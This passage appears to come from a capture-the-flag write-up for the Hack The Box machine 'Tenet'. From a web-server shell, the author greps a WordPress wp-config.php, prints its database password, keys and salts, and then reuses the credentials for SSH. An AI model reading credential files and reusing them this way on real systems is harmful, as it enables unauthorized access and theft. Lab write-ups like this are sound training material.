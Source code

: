 `wordpress/wp-config.php` looks interesting, let's open it and grep for `user` keyword\
If we grep for all define statements we see a lot of juicy stuff 

```php
$ www-data@tenet:/var/www/html$ cat wordpress/wp-config.php | grep -i user
/** MySQL database username */
define( 'DB_USER', 'neil' );
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 
 
$ www-data@tenet:/var/www/html$ cat wordpress/wp-config.php | grep -i define
cat wordpress/wp-config.php | grep -i define
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'neil' );
define( 'DB_PASSWORD', 'Opera2112' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8mb4' );
define( 'DB_COLLATE', '' );
define( 'WP_HOME', 'http://tenet.htb');
define( 'WP_SITEURL', 'http://tenet.htb');
define( 'AUTH_KEY',         'QiuK;~(mBy7H3y8G;*|^*vGekSuuxKV$:Tc>5qKr`T}(t?+`r.+`gg,Ul,=!xy6d' );
define( 'SECURE_AUTH_KEY',  'x3q&hwYy]:S{l;jDU0D&./@]GbBz(P~}]y=3deqO1ZB/`P:GU<tJ[v)4><}wl_~N' );
define( 'LOGGED_IN_KEY',    'JrJ_u34gQ3(x7y_Db8`9%@jq<;{aqQk(Z+uZ|}M,l?6.~Fo/~Tr{0bJIW?@.*|Nu' );
define( 'NONCE_KEY',        '=z0ODLKO{9K;<,<gT[f!y_*1QgIc;#FoN}pvHNP`|hi/;cwK=vCwcC~nz&0:ajW#' );
define( 'AUTH_SALT',        '*.;XACYRMNvA?.r)f~}+A,eMke?/i^O6j$vhZA<E5Vp#N[a{YL TY^-Q[X++u@Ab' );
define( 'SECURE_AUTH_SALT', 'NtFPN?_NXFqW-Bm6Jv,v-KkjS^8Hz@BIcxc] F}(=v1$B@F/j(`b`7{A$T{DG|;h' );
define( 'LOGGED_IN_SALT',   'd14m0mBP eIawFxLs@+CrJz#d(88cx4||<6~_U3F=aCCiyN|]Hr{(mC5< R57zmn' );
define( 'NONCE_SALT',       'Srtt&}(~:K(R(q(FMK<}}%Zes!4%!S`V!KSk)Rlq{>Y?f&b`&NW[INM2,a9Zm,SH' );
define( 'WP_DEBUG', false );
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
```


And here we have username `neil` and password `Opera2112`\
yay we can ssh into the box with these credentials and here is the user flag

![user-shell](./images/user-shell.png)
